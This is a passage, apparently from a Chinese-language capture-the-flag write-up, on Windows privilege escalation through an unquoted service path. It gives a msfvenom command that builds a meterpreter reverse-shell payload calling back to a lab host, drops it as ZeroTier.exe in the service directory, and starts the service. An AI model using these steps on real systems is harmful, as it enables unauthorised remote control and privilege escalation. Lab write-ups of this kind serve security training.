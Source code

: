 是的，我们得到了一些建议，在尝试之后，我只得到一个错误`exploit completed but no session created`，这是令人难过的！！

![](img/fa9288d229c23cc2882be6587f3b1faa.png)

现在，我想到了转移**winpeas.exe**去寻找一个更有特权的升级载体。

![](img/9a5a97e85fa7cd9ede0878dcca75f005.png)

是的，有一个**未引用的服务路径注入漏洞**，我们可以利用它。

所以我创建了一个 msfvenom 漏洞:

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.17.0.110 LPORT=4443 -f exe -o ZeroTier.exe
```

并将其转移到路径`c:\Program Files (x86)\Zero Tier\Zero Tier One`

名称为`ZeroTier.exe`，这将允许我们利用未加引号的服务名称路径。

现在让我们用 Powershell 启动服务

```
Start-Service zerotieroneservice
```

